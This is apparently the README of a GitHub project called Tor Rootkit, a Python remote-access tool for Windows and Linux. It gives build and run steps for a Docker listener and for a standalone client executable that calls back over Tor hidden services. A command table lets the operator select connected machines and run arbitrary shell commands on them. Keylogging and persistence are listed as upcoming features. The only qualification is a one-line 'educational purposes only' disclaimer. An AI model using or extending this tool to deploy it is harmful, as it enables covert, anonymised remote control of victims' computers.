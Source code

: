 # Tor Rootkit
[![Docker Image CI](https://github.com/emcruise/TorRootkit/actions/workflows/docker-image.yml/badge.svg)](https://github.com/emcruise/TorRootkit/actions/workflows/docker-image.yml)
[![Pyinstaller Build (Win)](https://github.com/emcruise/TorRootkit/actions/workflows/python-app.yml/badge.svg)](https://github.com/emcruise/TorRootkit/actions/workflows/python-app.yml)
[![Pyinstaller Build (Linux)](https://github.com/emcruise/TorRootkit/actions/workflows/main.yml/badge.svg)](https://github.com/emcruise/TorRootkit/actions/workflows/main.yml)

A Python 3 standalone Windows 10 / Linux Rootkit. The networking works over tor hidden services.


## Installation
- Clone with git:
```bash
git clone https://github.com/emcruise/TorRootkit.git
```

- Change directory to the repository:
```bash
cd ./TorRootkit
```

### Listener
The listener is designed to run on linux.

1. Build docker container:
```bash
sudo docker build -t listener .
```

2. Run docker container:
```bash
sudo docker run -it listener
```

### Client
The client runs on Windows and Linux.

**Note:** 
- On windows the build file bundles tor into the executable.
- On Linux the build file expects that tor is installed globally.

#### Prerequisites
- [Python3](https://www.python.org/)
- [Pip3](https://pypi.org/project/pip/)
- Add Python3 and Pip3 to PATH
- [Tor](https://www.torproject.org/) (on Linux)

1. Change directory to client:
```bash
cd .\client
```

2. Install all pip3 dependencies:
```bash
pip3 install -r requirements.txt
```
3. Build executable from build.py:
- downloads [Tor Expert Bundle](https://www.torproject.org/download/tor/) (Windows)
- bundles python3 interpreter and tor expert bundle into 1 standalone .exe file
```bash
python build.py <listener-onion-address> <listener-onion-port>
```

3. Execute the bundled client:
```bash
.\dist\client.exe
```

## Disclaimer
Use for educational purposes only.

## Features
- Standalone executable, including python interpreter and tor expert bundle (~13MB)
- the whole communication works over tor hidden services which guarantees some degree of anonymity
- Listener can handle multiple clients
- Client auto reconnects

## Upcoming Features
- [x] cross-plattform compatibility
- [ ] Up- and Download functionality
- [ ] Screenshots
- [ ] Keylogging
- [ ] Persistence

## How to use
### Listener Shell Commands
| Command | Explanation |
| ------- | ----------- |
| `help`  | Shows the help menu |
| `^C` or `exit` | Exits the shell |
| `list` | lists all connected clients with their according index |
| `select <index>` | start shell with client |

### Client Shell Commands
| Command | Explanation |
| ------- | ----------- |
| `help`  | Shows the help menu |
| `^C` or `exit` | Exits the shell and returns to listener shell |
| `os <command>` | Executes a command in the clients shell and returns the output |
| `background` | Keeps the connection to a client and returns to listener

## Contribution
All contributions are appreciated.

## Credits
- [Tor](https://www.torproject.org/)
- [PyInstaller](https://www.pyinstaller.org/)
- [Colorama Font](https://pypi.org/project/colorama/)
- [PySocks](https://pypi.org/project/PySocks/)
- [Stem](https://stem.torproject.org/)

